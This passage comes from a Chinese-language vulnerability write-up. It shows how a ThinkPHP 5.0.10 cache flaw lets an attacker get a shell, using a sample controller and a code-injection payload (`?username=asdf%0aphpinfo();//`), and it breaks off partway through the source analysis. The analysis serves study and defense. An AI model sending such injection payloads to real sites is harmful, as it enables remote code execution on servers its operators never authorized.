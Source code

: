 ```php
    {
        if (!empty($vars) && is_array($vars)) {
            // 模板阵列变量分解成为独立变量
            extract($vars, EXTR_OVERWRITE);
        }
        //载入模版缓存文件
        include $cacheFile;#完成文件包含
    }
```

用户输入没有被过滤通过`assign`方法保存到`$this->data`中,通过调用`fetch`方法加载模板输出,最终在`read`方法中进行文件包含

# 缓存getshell

[利用Thinkphp 5缓存漏洞实现前台Getshell](https://www.cnblogs.com/h2zZhou/p/7824723.html)

>测试版本为5.0.10

## 漏洞复现

>运行目录要修改到`/`而不是`/public`

```php
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        $username=input("get.username");
        Cache::set("name",$username);
        return 'Cache success';
    }
}
```

`?username=asdf%0aphpinfo();//`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204132018118.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204132020702.png)

>跟thinkphpv3的缓存getshell类似

## 漏洞分析

函数调用栈

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204132032009.png)

```php
#thinkphp/library/think/Cache.php
    /**
     * 自动初始化缓存
     * @access public
     * @param array         $options  配置数组
     * @return Driver
     */
    public static function init(array $options = [])
    {
        if (is_null(self::$handler)) {
            // 自动初始化缓存
            if (!empty($options)) {
                $connect = self::connect($options);
```